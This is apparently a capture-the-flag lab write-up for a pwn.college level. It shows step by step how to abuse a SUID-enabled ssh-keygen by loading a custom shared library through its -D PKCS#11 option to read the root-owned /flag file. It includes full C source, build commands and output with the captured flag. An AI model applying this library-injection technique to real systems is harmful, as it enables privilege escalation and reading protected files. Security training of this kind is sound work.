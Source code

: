 `ssh-keygen`

`ssh-keygen` is a command line program that is used to generate SSH key pairs which are used for secure communication between two machine such as connecting to a remote server securely.

For this problem, these statements are very important.

```bash
Desktop  demo  key  key.pub
hacker@program-misuse-level-51:~$ /challenge/babysuid_level51 
Welcome to /challenge/babysuid_level51!

This challenge is part of a series of programs that
show you how dangerous it is to allow users to load their own code as plugins into the program (but figuring out how is the hard part!).

I just set the SUID bit on /usr/bin/ssh-keygen.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level51) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/ssh-keygen!
```

Here I think the problem wants us to load our code in the program here the program means `ssh-keygen`. 

What is the benefit of loading our code? There can be some way to open the `flag` file in the code. 

Now we have to find that how `ssh-keygen` can take a code. We have to run `man ssh-keygen`. 

After searching in the `man ssh-keygen` we can see that there is this:

`-D pkcs11` that can load a library called `pkcs11`. Sounds interesting. And the library is called `shared library` that means it is a `dynamic Link library`. 

Now make a `C` code and make it a `dynamic link library`. `dll` are the libraries that are loaded in the runtime of the program execution. Opposite is the `static library`.

```C
#include<stdio.h>
int main()
{
printf("Hello World\n");
return 0;
}
```

Now we will make this code a `shared library`. You can google it how to make a `dynamic Link Library`.

```bash
hacker@program-misuse-level-51:~$ touch test.c
hacker@program-misuse-level-51:~$ gcc -c -fPIC test.c -o test.o
hacker@program-misuse-level-51:~$ ls
Desktop  demo  key  key.pub  test.c  test.o
hacker@program-misuse-level-51:~$ gcc -shared test.o -o test.so
hacker@program-misuse-level-51:~$ ls
Desktop  demo  key  key.pub  test.c  test.o  test.so
hacker@program-misuse-level-51:~$ ssh-keygen -D ./test.so 
./test.so does not contain expected string C_GetFunctionList
provider ./test.so is not a PKCS11 library
cannot read public key from pkcs11
```

But here we can see it says it expects `C_GetFunctionList` in the `test.so` file.

Let's change the `main` to `C_GetFunctionList` in our source code.

```C
#include<stdio.h>
int C_GetFunctionList()
{
printf("Hello World\n");
return 0;
}
```

```bash
hacker@program-misuse-level-51:~$ gcc -c -fPIC test.c -o test.o
hacker@program-misuse-level-51:~$ gcc -shared test.o -o test.so
hacker@program-misuse-level-51:~$ ssh-keygen -D ./test.so 
Hello World
Segmentation fault
```

Ah!, our code runs. Now let's open the `flag` file and read its content.

```C
#include<stdio.h>

int C_GetFunctionList()
{
printf("Hello World\n");

FILE* fp;
fp = fopen("/flag", "r");

char line[100];

while(fgets(line, 100, fp))
{
   printf("%s", line);
}
return 0;
}
```

```bash
hacker@program-misuse-level-51:~$ gcc -c -fPIC test.c -o test.o
hacker@program-misuse-level-51:~$ gcc -shared test.o -o test.so
hacker@program-misuse-level-51:~$ ssh-keygen -D ./test.so 
Hello World
pwn.college{wdEdAguJMXoLfF3EBlmcTNLOPDt.01M5EDL0AjNzQzW}
Segmentation fault
```

Here is the flag.


